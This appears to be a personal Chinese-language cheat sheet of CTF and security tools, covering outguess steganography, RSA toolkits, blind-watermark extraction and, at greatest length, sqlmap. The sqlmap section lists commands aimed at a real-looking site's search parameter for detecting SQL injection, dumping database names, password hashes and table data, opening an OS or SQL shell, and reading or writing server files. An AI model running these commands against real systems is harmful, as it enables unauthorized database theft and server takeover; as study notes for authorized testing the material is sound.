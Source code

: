 
### 1、outguess工具，隐写读取，可带密钥
安装：直接kali安装即可
使用：
```bash
#不带密码：
outguess -r 图片文路径 -t 输出内容文件路径
#带密码
outguess -k ‘密码’ -r 图片文件路径 -t 输出路径

#隐写：
outguess -k  “密码” -d hidden。txt demo.jpg out.jpg
```
### 2、 rsa工具集-openssl，rsatool，rsactftool，rsaAtool

[[rsa工具集使用]]
### 3、CaptfEncoder：网络安全工具套件

[[CaptfEncoder]]
### 4、盲水印提取
工具kali安装：
```
pip install blind-watermark
```

```
# embed watermark into image:
blind_watermark --embed --pwd 1234 examples/pic/ori_img.jpeg "watermark text" examples/output/embedded.png
# extract watermark from image:
blind_watermark --extract --pwd 1234 --wm_shape 111 examples/output/embedded.png
```
### 5、sqlmap
探测
```bash

sqlmap -u "https://www.haifong.org/search?key=1"
#在虚拟机中，使用主机代理网络（注意首先需要开启clash的允许局域网访问）
sqlmap -u "https://www.haifong.org/search?key=1" --proxy=http://192.168.240.1:7890
#探测post，让他自己找参数
sqlmap -u "url" --form --batch

#指定探测post数据
#首先抓包一个post数据
sqlmap -u "url" --data="抓包抓到的post数据" -p 前面data的参数指定一个扫描

#抓一个数据包并将数据爆保存到文件里，post请求，用这种方式最好（get也可以用）
#使用-r参数
sqlmap -r 文件名

#判断cookie里有没有，可以使用--cookie


```
探测级别：
```
--level 
```
获取库名
```
sqlmap -u url --current-db --batch
```
获取数据库密码：
```
sqlmap -u url  --batch --password
```
获取字段名：
```
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
获取数据：
```shell
sqlmap -u url --batch -D 数据苦命 -T 表名  --columns
```
拿shell：
```shell
sqlmap -u url --os-shell
sqlmpa -u url --sql-shell #拿到这个shell，只能执行查询语句
```
上传文件：
```shell
#下载文件
sqlmap -u url --file-read 绝对路劲 -v  #100s后关机 -v查看详细信息，可以看到它使用的sql语句
#上传文件
sqlmap -u url --file-write 本地文件路径  --file-dest 上传的文件名

```
![[Pasted image 20231216171016.png]]

绕过脚本：
sqlmap自带了六十几个tamper